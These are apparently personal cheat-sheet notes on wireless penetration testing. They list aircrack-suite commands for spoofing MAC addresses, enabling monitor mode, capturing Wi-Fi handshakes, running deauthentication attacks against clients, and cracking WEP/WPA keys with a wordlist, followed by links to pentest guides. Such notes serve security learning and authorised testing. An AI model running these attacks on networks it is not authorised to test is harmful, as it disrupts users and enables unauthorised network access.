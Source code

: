 
###########################
macchanger - change current mac address
###########################


iwconfig

ifconfig wlanmon0 down

macchanger -r wlan0mon

macchanger -m newmacaddress wlan0mon

###########################
Promiscous Mode or Monitor Mode
###########################

#shutdown wireless card
ifconfig wlan0 down

#show network cards status
ifconfig

#config wireless card in monitor mode
iwconfig wlan0 mode monitor

#show wireless status
iwconfig

#power wireless lan card
ifconfig wlan0 up

#show network status
ifconfig

# configure wireless card back into normal mode
iwconfig wlan0 mode managed

###########################

#config wireless card in monitor mode
airmon-ng start wlan0


###########################
airodump-ng - capture network traffic
###########################

airodump-ng [option] <interface>

-c <channel>

-d <bssid>
--bssid <bssid>

-w <dumpfile>

WEP 

airodump-ng --channel 6 --bssid <mac> --write <filename> wlan0mon

aircrack-ng <filename>

WPA

WPA

TKIP - Temporal Key Integrity Protocol

WPA2

CCMP - Counter Mode Block Chain Message Authentication Code Protocol




https://www.hackers-arise.com/post/osint-tracking-the-suspect-s-precise-location-using-wigle-net


https://www.bettercap.org/

https://en.kali.tools/?p=52

https://executeatwill.com/2020/01/05/Wireless-Wifi-Penetration-Testing-Hacker-Notes/




# list wireless devices
iwconfig

# kill process that would interfere with the wireless network airmong-ng check kill
airmon-ng check kill

# Start monitor mode
airmon-ng start wlan0

#confirm
iwconfig

# Searching nearby area of wifi networks
airodump-ng wlan0mon

# BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID   
# 5C:A6:E6:B9:CF:12  -15       15        0    0   3  270   WPA2 CCMP   PSK  Wireless Lab 

# capture frames for the device with <mac> 
airodump-ng -c 6 --bssid <mac> -w capturedframes wlan0mon



# Performing a DEAUTH attack
aireplay-ng -0 1 -a <mac> -c <mac2> wlan1

aireplay-ng -0 5 -a <mac> --ignore-negative wlan1

-a = Wifi mac address 
-c = Station (client)


# Cracking the captured data
aircrack-ng -w wordlist.txt -b <mac> capturedframes.cap





### 

<https://blog.samcater.com/capturing-beacons-and-probe-requests-of-public-wifi-access-points-the-why-how-and-stats/>
